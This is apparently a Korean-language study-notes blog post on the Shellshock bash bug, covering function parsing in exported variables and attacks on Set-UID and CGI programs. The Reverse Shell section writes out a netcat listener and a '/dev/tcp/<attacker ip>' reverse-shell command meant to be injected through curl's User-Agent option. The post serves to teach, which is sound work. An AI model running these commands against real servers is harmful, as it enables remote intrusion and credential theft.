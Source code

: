 ```yaml
---
title: Shellshock Attack
tags: security
key: page-shellshock_attack
cover: /assets/cover/cyber_security.png
mathjax: true
mathjax_autoNumber: true
---
```


## Shell이란?
* Shell이란 command-line interpreter이다. 유저와 OS사이에서 명령어들을 읽고 그것들을 실행시켜준다.
* sh, bash, csh, zsh, Windows PowerShell 등이 있다.
* 그 중 bash shell이 Linux계열에서 가장 많이 쓰인다.
* Shell 안에 존재하는 보안 취약점들을 ShellShock라고 부른다.

```shell
$ foo=' () { echo "hello world"; }'
$ echo $foo
() { echo "hello world"; }
$ declare -f foo
$ export foo
$ bash
(child):$ echo $foo

(child):$ declare -f foo
foo ()
{
    echo "hello world"
}
(child) :$ foo
hello world
```

* 여기서 foo= ' '를 해버리면 shell variable로 인식을 해버리지만 자식 bash에서는 shell function으로 작동되어 버린다.
* 그리고 { 왼쪽 오른쪽에 스페이스(```() { echo```)가 반드시 있어야지만 함수로 인식 할 수 있다.
* export 커맨드를 통해 입력된 쉘 변수는 자식 쉘에게 전달될 수 있다.
* 부모 shell에서 자식 shell로 환경변수를 전달하는 과정에서 ()이 있으면 자식 shell에게 쉘 변수가 아닌 쉘 함수로 전달한다.
* declare는 쉘 함수를 프린트 해준다.

## The Shellshock Bug

* Shellsock가 일어나는 이유는 bash 코드 안에서 parsing을 제대로 못하고 있기 때문이었다.
* 먼저 환견변수들 중에서 ```() {``` 로 시작하면 환경변수를 함수로 바꿔버린다.
```
foo='() { echo "test"; } -> foo () { echo "test"; }
```
* 환경 변수로 바꾸면서 만약 거기에 함수 정의만 있는 것이 아니라 커맨드가 있다면 그것마저 실행시켜버려서 여기서 버그가 발생하게 된 것이다.

## Shellshock Attack on Set-UID Programs

* bash shell을 호출하는 함수가 있는 프로그램이 있다면 그게 타겟 프로그램이 될 수 있다.
* 타겟 프로그램이 Set-UID Program일때 우리는 위의 버그 예제를 사용함으로써 root shell을 탈취할 수 있다.
* 이때, dash와 같은 shell이 realID와 eID가 다름으로써 환경 변수로부터 함수 변환이 안 되는 것을 방지 하지 않는 취약한 프로그램으로만 공격이 가능할 것이다.

## Shellshock Attack on CGI Programs

* Common Gateway Interface(CGI)는 웹 서버에서 다이나믹하게 웹 페이지를 생성해주는 프로그램을 돌릴 수 있게 도와주는 것이다.
* 많은 CGI가 shell script를 쓰는데 bash를 쓰는게 있다면 우리가 노리는 타겟이 된다.
* 서버쪽에서 cgi 프로그램이 아파치 서버에 요청을 하면 서버는 fork를 통해 새로운 프로세스를 실행하게 된다.
* #!/bin/bash로 시작하면 exec()가 /bin/bash를 실행하게 된다.
* 브라우저로 user-agent값을 바꿔서 보내는건 힘들기 때문에 curl로 -A 를 통해 shellshock를 일으키는게 좋고 우분투 시스템에서 대게 일반적으로 /var/www/SQL/collabtive/config/standard/config.php나 /var/www/SeedElgg/engine/settings.php 문서들을 보면 데이터베이스 아이디와 비번이 hard coding된 것을 볼 수 있다.

## Reverse Shell

* Reverse Shell이란 원격 컴퓨터에서 input output을 컨트롤 할 수 있게 해주는 shell process이다.
* netcat을 주로 쓰는데 ```$ nc -l 9090 -v```라는 명령어를 주면 9090번 포트에서 listen을 하고 있고 공격자 컴퓨터에서 이것을 먼저 실행시킨다.
* 이후 서버쪽에서 ```$ /bin/bash -i > /dev/tcp/<attacker ip>/9090 0<&1 2>&1```을 실행시켜준다.
* bash를 interactive하게 쓴다는 거고 거기의 stdout을 9090포트로 보내는데 stdout내용을 fd 0(stdin) 으로 사용하고 stderr는 stdout(fd 1)로 보내겠다는 의미이다.
* 서버에 보내는 명령어를 이전에 배운 shellshock를 통해 실행시키면 되는데 curl -A에 넣어서 보내면 된다.
* Reverse shell에서 중요한 것은 standard input, output, and error에 관한 값을 공격자의 network connection으로 redirect하는 것이다. 


## Remote Attack on PHP

* Shellshock 공격에는 다음 2가지 조건이 필요하다.
    1. invocation of bash
    1. passing of user data as environment variables
* PHP code에서 system()을 쓰고, shell 이 bash라면 1번 조건이 충족된다.
* system()을 통해서 environment variables을 user input에 의해 설정할 수 있다면 2번 조건이 충족된다.

## Refrence

* [COMPUTER SECURITY: A Hands-on Approach by Wenliang Du](https://www.amazon.com/Computer-Security-Hands-Approach-Wenliang/dp/154836794X)